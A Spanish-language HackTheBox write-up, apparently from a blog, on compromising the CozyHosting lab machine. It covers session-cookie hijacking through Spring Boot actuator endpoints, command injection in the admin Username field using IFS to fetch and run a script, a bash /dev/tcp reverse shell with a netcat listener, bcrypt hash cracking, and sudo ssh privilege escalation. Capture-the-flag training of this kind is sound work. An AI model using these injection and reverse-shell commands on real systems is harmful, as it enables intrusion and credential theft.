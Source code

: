```yaml
---
title: CozyHosting
date: 2024-08-31
categories: [WRITEUPS, HackTheBox]
tags: []  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/cozy1.png)

---

Buenas, en este ***Writeup*** explotaremos un **Coockies Hijacking**, entraremos al servidor gracias a un **RCE** dentro del Dashboard del administrador, y escalaremos privilegios gracias a los permisos de **SUDO** en el binario **/usr/bin/ssh**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo con *NMAP*, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.11.230 -n -Pn -v
```

![picture](/assets/images/hackthebox/cozy2.png){: w="600" h="300" }

Una vez comprobados los puertos, nos iremos al navegador web para ver la página asociada a la *IP*, al no mostrar contenido porque no está resolviendo el nombre de dominio, tendremos que añadir el dominio junto con la *IP* al archivo "**/etc/hosts**".

![picture](/assets/images/hackthebox/cozy3.png)

Una vez guardado, nos vamos al navegador a ver el contenido.

![picture](/assets/images/hackthebox/cozy4.png)

Buscando con **Wappalyzer**, **Whatweb**, y el código de la página no consigo encontrar que aplicación está corriendo por detrás.

Realizando **Fuzzing** con **Gobuster**, no encuentro mucho contenido

```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -b 403,404 -x .txt,.php,.sh,.html,.png,.jpg
```

![picture](/assets/images/hackthebox/cozy5.png)

Si nos metemos en la ruta "**/error**", nos muestra el siguiente mensaje.

![picture](/assets/images/hackthebox/cozy6.png){: w="600" h="300" }

Buscando por internet el error, encuentro que se trata de **Spring Boot**, que es un marco **Java** de código abierto que se utiliza para programar aplicaciones independientes basadas en **Spring** de nivel de producción con un mínimo esfuerzo.

Podemos encontrar una lista de rutas de **Spring Boot** en "**/usr/share/SecLists/Discovery/Web-Content/spring-boot.txt**", así que la idea será realizar **Fuzzing** con esta lista.

```bash
gobuster dir -t 100 -u http://cozyhosting.htb/ -w /usr/share/SecLists/Discovery/Web-Content/spring-boot.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403,500
```

![picture](/assets/images/hackthebox/cozy7.png)

En la ruta "**/actuator/sessions**" encontramos lo que parece ser un usuario.

![picture](/assets/images/hackthebox/cozy8.png)

Al interceptar la petición con **Burpsuite**, si volvemos a mirar la ruta "**/actuator/sessions**", nos damos cuenta que el número que sale al lado del usuario, es la **coockie de sesión**, como podemos ver en las siguientes 2 imágenes.

![picture](/assets/images/hackthebox/cozy9.png)

![picture](/assets/images/hackthebox/cozy10.png)

---
## **Explotación**

Comprobando lo anterior nos damos cuenta que podemos explotar un **Coockies Hijacking**, con la **coockie** de sesión del usuario **kanderson**.

Para realizarlo, presionaremos "**F12**", nos iremos a **Storage**, y cambiaremos el valor de nuestra **Coockie**, y pondremos el ***HttpsOnly*** en ***false***, ya que sin esto no funcionará. 

![picture](/assets/images/hackthebox/cozy16.png)


Y una vez lo realicemos, escribiremos **admin** en la ruta del dominio, y nos meterá en el **Dashboard** del admin.

![picture](/assets/images/hackthebox/cozy17.png)

A continuación, interceptaremos la petición con **Burpsuite**, para ver como se envía.

![picture](/assets/images/hackthebox/cozy18.png)

La envíamos al **repiter**, y volvemos a lanzar la petición, y nos dice que no puede resolver el **Hostname** **test**.

![picture](/assets/images/hackthebox/cozy19.png)

Probando distintos nombres, e intentando inyectar comandos tanto en **Hostname**, como en **Username**, podemos ejecutar comandos en el parámetro **Username**.

![picture](/assets/images/hackthebox/cozy22.png)

Si intentamos listar un comando con espacios, nos dice que no puede contener espacios.

![picture](/assets/images/hackthebox/cozy23.png)

Lo que vamos a realizar, es sustituir los espacios por barras bajas __ .

Para ello utilizaremos la variable **IFS** de bash para que defina los separadores internos entre campos para palabras.

Crearemos un script al que llamaré **rshell.sh** en nuestra máquina local con el contenido de una **Reverse Shell**.

```bash
bash -i >& /dev/tcp/nuestra ip/4444 0>&1
```

Y crearemos un servidor **HTTP** donde hayamos creado el archivo.

```bash
python3 -m http.server 8888
```

Enviamos el siguiente comando con la variable **IFS** en el parámetro de **username**.

```bash
$(IFS=_;command='curl_http://10.10.16.4:8888/rshell.sh_--output_/tmp/rshell.sh';$command)
```


![picture](/assets/images/hackthebox/cozy24.png){: w="600" h="300" }

Le damos permisos al script.

```bash
$(IFS=_;command='chmod_777_/tmp/rshell.sh';$command)
```

![picture](/assets/images/hackthebox/cozy25.png){: w="600" h="300" }

Nos abrimos un Listener con ncat.

```bash
nc -nlvp 4444
```

Y ejecutamos el script.

```bash
$(IFS=_;command='/tmp/rshell.sh';$command)
```

![picture](/assets/images/hackthebox/cozy26.png){: w="600" h="300" }

Y obtenemos acceso al servidor, como el usuario **app**.

![picture](/assets/images/hackthebox/cozy27.png){: w="600" h="300" }

Realizamos un tratamiento de la **TTY**, para poder movernos mejor mediante la terminal.

(*Para ver el número de filas y columnas en vuestra máquina, dirigiros a vuestra máquina local y ejecutais **stty size***, *y cambiáis si es necesario el número de filas y columnas*)

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo; fg
reset xterm
stty rows 49 columns 188
export TERM=xterm
```

---

## **Escalada de privilegios**

Dentro de la máquina, encontramos un archivo **.jar**, que nos vamos a traer a la máquina local para descomprimirlo y ver su contenido.

Montamos un servidor **HTTP** en el servidor, y nos lo descargamos en la máquina local con **wget**.

![picture](/assets/images/hackthebox/cozy28.png)

```bash
wget http://10.10.11.230:4444/cloudhosting-0.0.1.jar
```

![picture](/assets/images/hackthebox/cozy29.png)

Lo descomprimimos con **unzip**.

```bash
unzip cloudhosting-0.0.1.jar
```

Y encontramos 3 carpetas.

![picture](/assets/images/hackthebox/cozy30.png)

En el archivo "**/BOOT-INF/classes/application.properties**" encontramos, lo que parecen ser las credenciales de una base de datos **POSTGRESQL**.

![picture](/assets/images/hackthebox/cozy31.png){: w="600" h="300" }

Entramos dentro de la base de datos de "**cozyhosting**", y encontramos las credenciales de **kanderson**, y el **admin**.

![picture](/assets/images/hackthebox/cozy32.png){: w="600" h="300" }

Comprobamos que el hash es del tipo **bcrypt**.

![picture](/assets/images/hackthebox/cozy34.png){: w="600" h="300" }

Intentamos descifrarlo mediante ataque de diccionario.

```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Y encuentra la contraseña del **Admin**.

![picture](/assets/images/hackthebox/cozy33.png){: w="600" h="300" }

Vemos que hay un usuario **josh**, intentamos migrar con la contraseña del **Admin**, y funciona.

![picture](/assets/images/hackthebox/cozy35.png)
Y en su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/cozy36.png)

Listando los permisos de **SUDO**, comprobamos que puede ejecutar como **root** el binario **/usr/bin/ssh**.

En la web de [**GTFOBins - ssh**](https://gtfobins.github.io/gtfobins/ssh/), nos indica como podemos escalar privilegios.

En la carpeta personal de **root** encontramos la segunda **flag**.

![picture](/assets/images/hackthebox/cozy37.png)

![picture](/assets/images/hackthebox/cozy38.png){: w="600" h="300" }